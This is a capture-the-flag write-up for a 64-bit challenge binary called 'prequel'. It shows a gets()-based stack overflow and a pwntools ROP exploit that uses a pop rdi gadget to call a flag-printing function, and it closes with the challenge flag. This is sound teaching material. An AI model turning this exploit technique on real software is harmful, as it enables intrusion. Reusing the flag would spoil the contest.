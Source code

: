 # Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages_debug.db` We will need to copy this to `messages.db`, because the binary will read this file.

## Binary
![](screenshots/executable.png)
We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place, and there isn't a memory segment that is writeable and executable at the same time. We also don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary
![](screenshots/running_executable.png)

The binary asks for a name, does an sql query and prints out the result.

## Decompiling
![](screenshots/decompiled.png)

When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.

![](screenshots/seccomp.png)
As you can see using execve and execveat results in terminating the process, so we can't really get a shell without exploiting the kernel itself in order to bypass the seccomp filter. However this protection won't stop us in getting the flag.

## The vulnerability
![](screenshots/read_name.png)

The function `read_name` calls `gets` on a given buffer. It is a well known fact that using `gets` is a bad idea, because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequel")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since there is no segment that is writeable and executable at the same time we have to use return oriented programming (ROP), we can't just send a shellcode and jump there.
Fortunately our job is quite easy, because there is a function that prints out the flag using the debug `messages_debug.db` file. The function takes a number that determines the amount of the returned records.

![](screenshots/print_debug_flag.png)

We only need a pop rdi gadget now to set the first parameter in a function call, but luckily there is a function called `mary_poppins` that contains this gadget at the following memory address `0x401ff2` otherwise we could just use the tool `ROPgadget`.

```python
from pwn import *

context.binary = elf = ELF("./prequel")

p = process()

offset = 72
POP_RDI = 0x401FF2

payload = b"A" * 72 # padding
payload += p64(POP_RDI)
payload += p64(1337) # just a number that is greater than 3
payload += p64(elf.sym["print_debug_flag"]) # print_debug_flag's memory address

p.sendline(payload)
p.recvuntil(b"Prepared statement successfully\n")
flag = p.recvuntil(b"}").replace(b"\n", b"").decode() # delete line breaks

log.success("Got flag: " + flag)
```

Running the exploit on the remote server yields the following flag: `HCSC24{wh3n_y0ur_str1ngs_4r3_thE_M0stpr3c1ous_g4dG3t5}`